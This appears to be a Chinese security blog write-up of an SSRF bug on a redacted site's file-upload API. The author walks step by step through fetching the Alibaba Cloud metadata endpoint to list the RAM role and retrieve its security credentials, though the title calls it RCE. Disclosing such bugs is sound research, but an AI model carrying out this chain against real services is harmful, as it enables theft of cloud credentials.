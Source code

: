 #  泥煤的，又一次RCE   
原创 石灰  富贵安全   2025-05-17 00:00  
  
### 这里略过其他功能点不能暴露太多，不然大师傅会干我。直接来到漏洞点  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mtGcsnR1E3j586eXPxao2OcLx9bKibziarZqVL34hYWgibKZDLicXwMwwWIEXgTyWiapGicIoxKy976BuQ/640?wx_fmt=png&from=appmsg "")  
### 1.抓取该上传接口的数据包，上传http://100.100.100.200/latest/meta-data  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mtGcsnR1E3j586eXPxao2OWRqFmftuT9lkCcfQ7qPZJKCV6BRuu6P4TLxCcLGUn8oOQg8z6oLfmA/640?wx_fmt=png&from=appmsg "")  
### 2.发送数据包，获取到该url返回的fileid：f77ade68-b6b2-4aaf-a5bb-56e6a6cc7885  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mtGcsnR1E3j586eXPxao2OqBF87b8YibtvfDpPx8KZyX5ZwNs7GMlPiajA9CibRM1IZCD0GbEmKh93Q/640?wx_fmt=png&from=appmsg "")  
### 3.利用这里的fileid ，https://xxx.xxx.com/api/findocx/console/anydoc/file/加上fileid即可完成访问  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mtGcsnR1E3j586eXPxao2ORE6XwicHhSibS9qjzMIXWScsHlEUEDH4WWD7gMzPHY91wiaAHlvdqoKcQ/640?wx_fmt=png&from=appmsg "")  
### 4.进一步利用  
```
进一步利用，上传http://100.100.100.200/latest/meta-data/ram/security-credentials/，获取到fileid 再去拼接https://xxxx.xxxx.com/api/findocx/console/anydoc/file/fileid获取到账号名再重新上传http://100.100.100.200/latest/meta-data/ram/security-credentials/账号名，拿到fileid，再拼接https://XXXX.XXX.com/api/findocx/console/anydoc/file/fileid
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mtGcsnR1E3j586eXPxao2OZWiceWqqB1N4ok94RFslHSFwSn9ibDQT7JmxPlEKlZ85bkym2k2dJVqg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mtGcsnR1E3j586eXPxao2OovSdohW4gpbn6PZKFDD94rj8IzGiaYhXQhOmk6iaLYQrJzXQl1jEw2vQ/640?wx_fmt=png&from=appmsg "")  
  
  
